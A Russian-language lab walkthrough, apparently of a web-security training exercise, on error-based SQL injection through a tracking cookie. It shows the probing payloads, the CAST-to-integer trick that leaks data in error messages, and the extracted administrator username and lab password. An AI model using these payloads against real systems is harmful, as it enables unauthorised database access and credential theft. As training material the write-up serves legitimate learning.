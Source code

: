 Лабораторная работа содержит уязвимость, связанную с внедрением SQL. Приложение использует файл cookie отслеживания для аналитики и выполняет запрос SQL, содержащий значение отправленного файла cookie. Результаты запроса SQL не возвращаются.

## Дано

таблица с именем `users`
и её столбцами, называемыми `username` и `password`

## Задача

пароль для `administrator`

# Разведка

В `TrackingId=inO8tAZfNHoQfmBW;` находится sql инъекция  
- при ' ответ 500
- при '' ответ 200
- при '-- ответ 200

Выявляем количество строк UNION
 `' UNION SELECT NULL--` - 1 доступна строка
 
 `' AND CAST((SELECT 1) as int)` - ошибка 
	 `ERROR: argument of AND must be type boolean, not type integer Position: 63`
`' AND 1=CAST((SELECT 1) as int)` - ответ 200 

`' AND 1=CAST((SELECT username from users) as int)--` - ответ 500 что и ожидало но 
```
Unterminated string literal started at position 95 in SQL SELECT * FROM tracking WHERE id = '2EBsAoeBAIL7UjSV' AND 1=CAST((SELECT username from users) as'. Expected  char
```
Из ошибки следует что есть ограничение по символу так как мы видим обрезанный наш payload `' AND 1=CAST((SELECT username from users) as` 

- Пробуем обрезать id cookie где данная уязвимость - всё чутко `ERROR: more than one row returned by a subquery used as an expression`

# Атака

- Формируем запрос к бд чтоб он нам в ошибки выдал конфиденциальные данные 
	`' AND 1=CAST((SELECT username from users LIMIT 1) as int)--` - ERROR: invalid input syntax for type integer: "administrator"
	`' AND 1=CAST((SELECT password from users LIMIT 1) as int)--`

administrator 90713s29lglklc28j6c2